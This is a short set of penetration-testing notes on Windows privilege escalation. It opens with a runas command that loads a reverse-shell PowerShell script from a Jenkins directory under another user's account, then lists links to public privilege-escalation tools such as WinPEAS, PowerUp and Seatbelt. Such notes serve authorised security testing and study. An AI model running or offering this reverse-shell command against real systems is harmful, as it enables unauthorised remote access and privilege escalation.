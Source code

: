 ```
runas /user:adm1n "powershell Start-Transcript -Path C:\Program Files\Jenkins\testlog.txt;import-module 'C:\Program Files\Jenkins\revshell.ps1';Stop-Transcript"
```
# Windows privesc scripts/exe

https://www.hackingarticles.in/window-privilege-escalation-automated-script/

- WinPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- PrivescCheck: https://github.com/itm4n/PrivescCheck
- Seat Belt: https://github.com/GhostPack/Seatbelt
- Powerup: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- windows-privesc-check: https://github.com/pentestmonkey/windows-privesc-check
- Windows-Exploit-Suggester: https://github.com/AonCyberLabs/Windows-Exploit-Suggester